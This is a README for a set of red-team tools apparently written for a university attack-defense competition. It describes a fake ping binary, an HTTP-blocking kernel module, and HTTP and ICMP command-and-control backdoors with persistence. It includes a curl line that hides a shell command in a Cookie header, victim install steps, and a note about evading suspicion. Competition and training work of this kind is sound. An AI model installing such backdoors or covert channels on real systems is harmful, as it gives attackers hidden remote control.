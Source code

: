 # Red Team Tools

Each of the tools below was developed by Jack Dunfey for the Internal Lockdown competition at the University at Buffalo.

Each of their folders has an individual README with more information 

## Everything!

```
git clone ...
cd Red-Team-Tools
chmod +x install.sh
./install.sh all
```

## Malicious Ping

This is a C program that can be compiled to replace the ping binary on a system.
It will seem successful for any properly formed IP address or valid DNS name.

<!-- Add images here -->

## HTTP Takedown Kernel Module

This is a kernel module that when installed will block HTTP requests for X minutes every Y minutes. X and Y can be set using macros at the top of the file.

## HTTP C2

Creates a service called processd that runs a program that listens for commands hidden in the headers of an HTTP request

Example Attack:
`curl $VICTIM_IP -A "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/420.69 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36" -H "Cookie: $CMD" -H "Upgrade-Insecure-Requests: $RETURN_PORT" > /dev/null 2>&1`

## ICMP C2

Creates a service called icmp that "replaces" the kernels responses to icmp echo requests with its own. It will respect the contents of the `net.ipv4.icmp_echo_ignore_all`.

If IP packet has a ttl of 45, 65, 31, or 17, the service will execute the payload and the response will be the output of the command.

<!-- TODO: 
- Should make the code timeout and send decoy response to avoid suspicion -->

Multithreading and restart on failure added for persistence.

For victim:
git clone then run `sudo ./install.sh` from within icmp-c2 directory
Once installed, source directory can be deleted 

For attacker:
run `python3 send-command.py ls -l`, can replace with any command

To force a reply even if ignore echo rule is turned on, use the `-f` flag as `argv[1]`
